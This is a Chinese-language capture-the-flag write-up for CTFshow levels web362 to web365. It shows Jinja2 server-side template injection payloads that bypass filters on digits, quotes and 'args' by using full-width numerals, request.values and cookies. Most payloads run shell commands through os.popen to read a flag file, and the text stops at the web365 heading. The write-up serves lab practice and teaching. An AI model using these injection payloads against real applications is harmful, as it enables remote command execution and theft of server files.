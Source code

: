 ##### web362

发现2和3被过滤了

![image-20240219143303596](https://i-blog.csdnimg.cn/blog_migrate/451186761703d4dfcd222afd17a3c867.png)

绕过方法：用全角数字 ‘０’,‘１’,‘２’,‘３’,‘４’,‘５’,‘６’,‘７’,‘８’,‘９’

全角：是一种电脑字符，是指一个全角字符占用两个标准字符（或两个半角字符）的位置。全角占两个字节。

半角：是指一个字符占用一个标准的字符位置。半角占一个字节。

```handlebars
?name={{"".__class__.__bases__[０].__subclasses__()[１３２].__init__.__globals__['popen']('cat /flag').read()}}   
​
?name={{a.__init__.__globals__['__builtins__'].eval('__import__("os").popen("cat /flag").read()')}}
​
?name={{''.__class__.__bases__[0].__subclasses__()[１３２].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
​
?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }}
```

##### web363

过滤了单引号、双引号

**get 传参方式绕过**

```handlebars
?name={{lipsum.__globals__.os.popen(request.args.ocean).read()}}&ocean =cat /flag
//因为传参会自动补上双引号
​
?name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=cat /flag
```

##### web364

过滤了单双引号，args

values 可以获取所有参数，从而绕过 args

```handlebars
`?name={{lipsum.__globals__.os.popen(request.values.ocean).read()}}&ocean=cat /flag`
```

也可以通过 cookie 绕过

```handlebars
?name={{url_for.__globals__[request.cookies.a][request.cookies.b](request.cookies.c).read()}}
a=os;b=popen;c=cat /flag
```

![image-20240219152316704](https://i-blog.csdnimg.cn/blog_migrate/5583e29b6d792fddd588222caad97bd5.png)

##### web365
